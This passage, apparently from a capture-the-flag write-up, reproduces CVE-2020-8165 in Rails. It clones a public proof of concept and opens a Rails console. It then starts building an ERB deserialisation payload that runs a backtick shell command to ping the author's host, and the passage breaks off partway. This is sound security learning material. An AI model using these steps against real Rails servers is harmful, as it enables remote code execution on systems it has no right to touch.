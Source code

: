 To start the Rails console, I’ll need an application to play with, so I’ll use
the one from the POC GitHub.

    
    
    df@buntu:~$ git clone https://github.com/masahiro331/CVE-2020-8165.git
    Cloning into 'CVE-2020-8165'...
    remote: Enumerating objects: 96, done.
    remote: Counting objects: 100% (96/96), done.
    remote: Compressing objects: 100% (74/74), done.
    remote: Total 96 (delta 13), reused 88 (delta 9), pack-reused 0
    Unpacking objects: 100% (96/96), 1.02 MiB | 6.33 MiB/s, done.
    df@buntu:~$ cd CVE-2020-8165/
    df@buntu:~/CVE-2020-8165$ bundle install --path venndor/bundle
    Warning: the running version of Bundler (1.17.2) is older than the version that created the lockfile (1.17.3). We suggest you upgrade to the latest version of Bundler by running `gem install bundler`.
    The dependency tzinfo-data (>= 0) will be unused by any of the platforms Bundler is installing for. Bundler is installing for ruby but the dependency is only for x86-mingw32, x86-mswin32, x64-mingw32, java. To add those platforms to the bundle, run `bundle lock --add-platform x86-mingw32 x86-mswin32 x64-mingw32 java`.
    Fetching gem metadata from https://rubygems.org/............
    Fetching gem metadata from https://rubygems.org/.
    Resolving dependencies...
    Fetching rake 13.0.1
    Installing rake 13.0.1
    Fetching concurrent-ruby 1.1.6
    Installing concurrent-ruby 1.1.6
    ...[snip]...
    

Now I can run the console:

    
    
    df@buntu:~/CVE-2020-8165$ bundle exec rails console
    Running via Spring preloader in process 132700
    Loading development environment (Rails 5.2.3)
    irb(main):001:0>
    

I’ll start with a payload that will `ping` my host to see that it works:

    
    
    irb(main):001:0> code = '`ping -c 1 10.10.14.19`'
    => "`ping -c 1 10.10.14.19`"
    

The next few lines are just copied from the POC:

    
    
    irb(main):002:0> erb = ERB.allocate
    => #<ERB:0x00005565f02ea080>
    irb(main):003:0> erb.instance_variable_set :@src, code
    => "`ping -c 1 10.10.14.19`"
    irb(main):004:0> erb.instance_variable_set :@filename, "1"
    => "1"
    irb(main):005:0> erb.instance_variable_set :@lineno, 1
    => 1
    
